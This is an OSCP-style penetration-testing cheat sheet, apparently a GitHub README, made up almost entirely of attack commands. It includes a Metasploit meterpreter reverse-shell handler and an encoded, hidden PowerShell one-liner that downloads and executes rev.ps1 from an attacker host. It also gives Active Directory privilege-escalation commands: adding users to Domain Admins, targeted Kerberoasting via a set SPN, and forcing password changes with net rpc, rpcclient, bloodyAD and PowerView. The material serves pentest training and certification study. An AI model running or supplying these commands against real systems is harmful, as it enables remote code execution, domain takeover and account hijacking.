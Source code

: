 cheat sheet oscp
Bloodhound
bloodhound-python -d domain.local -u username -p password -v --zip -c All -dc domain.local -ns 192.168.1.1
sharphound

Check group members
net rpc group members "groupname" -U "domain.local/pooja.ritu%qazwsx" -S 192.168.1.1



commands
----
Host IP: 192.168.xx.xx
target IP: 192.168.xx.xx
----

Launch msfconsole
------------------

service postgresql start
sudo msfdb start
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST tun0
set LPORT 4444
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit -jz

Reverse Shell
-------------
$Command = "(New-Object System.Net.WebClient).DownloadString('http://192.168.xx.xx/rev.ps1') | IEX"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
powershell -$ta -Nop -Window Hidden -EncodedCommand $EncodedCommand

base64

DACL Genricall
--------------

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All

Account Manipulation DACL(Discretionary Access Control Lists )
--------------------
net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"
net group "domain admins" komal /add /domain
#create two user account 
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
#Multiple Method for Exploitation
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
#1.2 Windows PowerShell Script-Powerview
#Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1

![image](https://github.com/user-attachments/assets/cfff6843-6551-426b-8656-0d1b0da202ee)

#T1110.001 – Change Password
#2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
#2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
#2.4 Windows Net Utility
net user Vipin Password@1234 /domain
#2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\vipin', $SecPassword)
#2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword


Abusing AD-DACL: ForceChangePassword
--------------------------------------

#This permission provides right to change the password of a user account without knowing their current password.
#This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the #target user.
#Method for Exploitation – Change Password
#It can be achieved from UNIX-like system with net, a tool for the administration of samba and cifs/smb clients.
#net rpc password aarti 'Password@987' -U ignite.local/raj%'Password@1' -S 192.168.1.8
#Linux Net RPC – Rpcclient
rpcclient -U ignite.local/raj 192.168.1.8
setuserinfo aarti 23 Password@987
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "raj" -p "Password@1" set password "aarti" "Password@987"
#Windows PowerShell – Powerview
powershell -ep bypass
Import-Module .\PowerView.ps1
$NewPassword = ConvertTo-SecureString 'Password1234' -AsPlainText -Force
Set-DomainUserPassword -Identity 'aarti' -AccountPassword $NewPassword

addself acl
-----------
The tester can abuse this permission by adding Anuradha User into Domain Admin group and list the domain admin members to ensure that Anuradha Users becomes Domain Admin.
net rpc group addmem "Domain Admins" anuradha -U ignite.local/anuradha%'Password@1' -S 192.168.1.7
bloodyAD --host "192.168.1.7" -d "ignite.local" -u "anuradha" -p "Password@1" add groupMember "Domain Admins" "anuradha"

The attacker can add a user/group/computer to a group. This can be achieved with with the Active Directory PowerShell module, or with Add-DomainGroupMember (PowerView module)
powershell -ep bypass
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.local\anuradha', $SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'anuradha' -Credential $Cred


Active Directory

TOOLS:

adPEAS-Light.ps1 >>      https://github.com/61106960/adPEAS/blob/main/adPEAS-Light.ps1
PowerUp.ps1 >>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
PowerView.ps1>>          https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
